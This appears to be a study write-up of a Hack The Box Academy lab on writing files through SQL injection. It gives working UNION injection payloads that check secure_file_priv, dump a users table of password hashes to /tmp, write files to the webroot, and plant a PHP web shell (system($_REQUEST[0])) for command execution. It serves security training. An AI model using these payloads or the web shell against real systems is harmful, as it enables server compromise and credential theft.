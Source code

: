 # Writing Files

While it is possible to write to files via injection, modern DBMSes are much more restrictive in which users are able to modify file contents due to the fact that attackers could potentially write a web shell via remote server to execute code and compromise the integrity of the server.

In order to gain access to file writing on a database server, you will need to meet the following conditions:

- The user must have FILE privileges
- secure_file_priv must be disabled globally
- Write access to the indicated location on the back-end

In the case of this module, you know that you already have FILE privileges. Now you will need to determine if the database itself has the privilege.

#### secure_file_priv

The secure_file_priv variable determines where files can be read and written from. 

- If the file has an empty value, you know you have the ability to read any file within the file system.

- If a directory is designated within this file, you can only read from this specified file.

- If the value is NULL, this means that you cannot read or write any file.

MariaDB sets the variable to empty by default, allowing you to modify files if you have FILE privileges.

MySQL uses /var/lib/mysql-files as the default folder. This means that by default, you cannot read or write to files anywhere in the system. 

You can user the following query to find the value of the variable in MySQL:

>SHOW VARIABLES LIKE 'secure_file_priv';

You would need to implement an injection to achieve this in our case. You will need to use the UNION and SELECT statements to achieve this. All the variables you need are stored within INFORMATION_SCHEMA database. The global variables are stored in a table named global_variables which has two columns, variable_name and variable_value.

These two columns must be selected from the INFORMATION_SCHEMA database. It should be noted that there are hundreds of global variables in the default MySQL configurations and you do NOT want to retrieve all of them. The results can be filtered so that only the secure_file_priv variable is shown via the WHERE clause.

Here is the SQL query that would achieve this:

>SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"

Below is the UNION injection that you would need to use. It delivers a payload and adds columns 1 and 4 containing junk entries:

>cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

In our example, this shows that the file value is empty, meaning that files can be read and written to with FILE permissions:

### SELECT INTO OUTFILE

The SELECT INTO OUTFILE statement is used to write data from SELECT queries into files. This is often used to export output into the file we have designated.

Below is an example that would save the output from the 'users' table into the /tmp/credentials file:

>SELECT \* FROM users INTO OUTFILE '/tmp/credentials';

Now you can go back to the back-end server and cat the file to view it's contents:

>cat /tmp/credentials

This will reveal the hash values for the passwords of the admin and newuser accounts.

You can directly SELECT strings into these files which allow us to write arbitrary file content to the back-end server.

You can use the following query to test this:

>SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

Now if you cat the file a second time, you will see the string you submitted:

>cat /tmp/test.txt

Then you can assess the read and write privileges and other information about this file with the following:

>ls -la /tmp/test.txt

This will reveal that the file creation was successful and that it is owned by the MySQL user you are operating under.

### Writing with Injections

You can use the following query to write a text file to the webroot to verify permissions:

>SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

If you wanted to write to the web shell, you would need to know the base web directory for the web server - also known as the web root. You can find this by using load_file to determine the server configuration. 

In the case of Apache servers, this is stored in /etc/apache2/apache2.conf.

For Nginx, this is located in /etc/nginx/nginx.conf.

IIS configuration is located in %WinDir%\System32\Inetsrv\Config\ApplicationHost.config.

If none of these are working, you can do an online search to seek out additional configuration locations.

Fuzzing can be used to scan locations and attempt file writing to different potential web roots by using Linux and Windows wordlists.

If all else fails, you can attempt to use server error output to try and discover the base web directory.

Here is an example injection that would achieve the above for our module:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4 INTO OUTFILE '/var/www/html/proof.txt'-- -

When this is submitted, no errors are returned and the query has been successfully injected. You can now check the file proof.txt to confirm it's existence. In the output you can see that the numbers 1, 3, and 4 are included because all junk data we submitted was written to the file. If you wanted to remove the numbers in output, you could replace them with a set of double quotes ("").

### Web Shell

Now you can write a PHP web shell to the webroot folder with the following PHP command, which will execute directly to the back-end:

>cn' UNION SELECT "", '\<?php system($\_REQUEST\[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -

This will return no errors meaning that we likely were able to write to the file.

You can verify the successful write by examining the /shell.php file and executing commands via the 0 parameter by using the ?0=id snippet from the URL.

This will output the id confirming that we are able to execute code and operate as the www-data user.

### Related:
- [Hack The Box Academy](https://academy.hackthebox.com/ "Hack The Box Academy Home page")
- [HTB Writing Files via Injection](https://academy.hackthebox.com/module/33/section/793 "HTB Writing Files via Injection")